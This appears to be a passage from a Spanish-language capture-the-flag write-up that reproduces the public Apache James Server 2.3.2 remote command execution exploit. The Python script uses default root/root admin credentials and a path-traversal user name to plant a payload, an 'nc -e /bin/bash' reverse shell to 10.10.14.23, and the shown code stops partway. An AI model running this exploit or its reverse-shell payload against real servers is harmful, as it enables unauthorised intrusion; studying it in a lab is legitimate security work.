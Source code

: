 Ahora tenemos que esperar que alguien se loguee para que se nos entable la shell; sin embargo, para este caso no vamos a recibir ninguna solicitud, por lo que vamos a tomar otro camino siguiendo un poco el proceso del exploit.

```python
#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

import socket
import sys
import time

# specify payload
#payload = 'touch /tmp/proof.txt' # to exploit on any user 
payload = 'nc -e /bin/bash 10.10.14.23 443' # to exploit only on root
# credentials to James Remote Administration Tool (Default - root/root)
user = 'root'
pwd = 'root'

if len(sys.argv) != 2:
    sys.stderr.write("[-]Usage: python %s <ip>\n" % sys.argv[0])
    sys.stderr.write("[-]Exemple: python %s 127.0.0.1\n" % sys.argv[0])
    sys.exit(1)

ip = sys.argv[1]

def recv(s):
        s.recv(1024)
        time.sleep(0.2)

try:
    print "[+]Connecting to James Remote Administration Tool..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,4555))
    s.recv(1024)
    s.send(user + "\n")
    s.recv(1024)
    s.send(pwd + "\n")
    s.recv(1024)
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
```